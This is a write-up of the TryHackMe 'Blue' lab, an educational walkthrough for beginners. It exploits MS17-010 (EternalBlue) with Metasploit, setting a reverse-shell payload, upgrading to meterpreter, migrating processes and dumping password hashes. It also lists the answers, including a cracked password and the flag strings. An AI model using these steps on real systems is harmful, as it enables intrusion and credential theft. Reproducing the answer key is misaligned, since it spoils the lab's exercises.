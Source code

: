 # [Blue](https://tryhackme.com/room/blue)

![Blue](./images/Blue.png)

## Task 1 - Recon

Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused. 

![task1-blue](./images/task1-blue.png)

Art by one of our members, Varg - [THM Profile](https://tryhackme.com/p/Varg) - [Instagram](https://www.instagram.com/varghalladesign/) - [Blue Merch](https://www.redbubble.com/shop/ap/53637482) - [Twitter](https://twitter.com/Vargnaar)

Link to Ice, the sequel to Blue: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

-----------------------------------------


The virtual machine used in this room (Blue) can be downloaded for offline usage from https://darkstar7471.com/resources.html


Enjoy the room! For future rooms and write-ups, follow [@darkstar7471](https://twitter.com/darkstar7471) on Twitter.

### Answer the questions

* Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)

	![task1-nmap](./images/task1-nmap.png)

* How many ports are open with a port number under 1000?

	`3`

* What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

	`ms17-010`

## Task 2 - Gain Access

Exploit the machine and gain a foothold.

### Answer the questions

* Start [Metasploit](https://tryhackme.com/module/metasploit)

	![task2-msfconsole](./images/task2-msfconsole.png)

* Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

	`exploit/windows/smb/ms17_010_eternalblue`

	![task2-ms17](./images/task2-ms17.png)

* Show options and set the one required value. What is the name of this value? (All caps for submission)

	`RHOSTS`

	![task2-options](./images/task2-options.png)

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`

* With that done, run the exploit!

	![task2-exploit](./images/task2-exploit.png)

* Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

	![task2-background](./images/task2-background.png)

## Task 3 - Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

### Answer the questions

* If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

	`post/multi/manage/shell_to_meterpreter`

	![task3-meterpreter](./images/task3-meterpreter.png)

* Select this (use MODULE_PATH). Show options, what option are we required to change?

	`SESSION`

	![task3-options](./images/task3-options.png)

* Set the required option, you may need to list all of the sessions to find your target here. 

	![task3-setup](./images/task3-setup.png)

* Run! If this doesn't work, try completing the exploit from the previous task once more.

	![task3-upgraqde](./images/task3-upgraqde.png)

* Once the meterpreter shell conversion completes, select that session for use.

	![task3-interact](./images/task3-interact.png)

* Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

	![task3-whoami](./images/task3-whoami.png)

* List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

	![task3-ps](./images/task3-ps.png)

* Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

	![task3-migrate](./images/task3-migrate.png)

## Task 4 - Cracking

Dump the non-default user's password and crack it!

### Answer the questions

* Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

	`Jon`

	![task4-hashdump](./images/task4-hashdump.png)

* Copy this password hash to a file and research how to crack it. What is the cracked password?

	`alqfna22`

	![task5-john](./images/task5-john.png)

## Task 5 - Find flags!

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!

Completed Blue? Check out Ice: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

### Answer the questions

* Flag1? This flag can be found at the system root. 

	`flag{access_the_machine}`

	![task6-flag1](./images/task6-flag1.png)

Flag2? This flag can be found at the location where passwords are stored within Windows.

* Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

	`flag{sam_database_elevated_access}`

	![task6-flag2](./images/task6-flag2.png)

* Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

	`flag{admin_documents_can_be_valuable}`
	
	![task6-flag3](./images/task6-flag3.png)


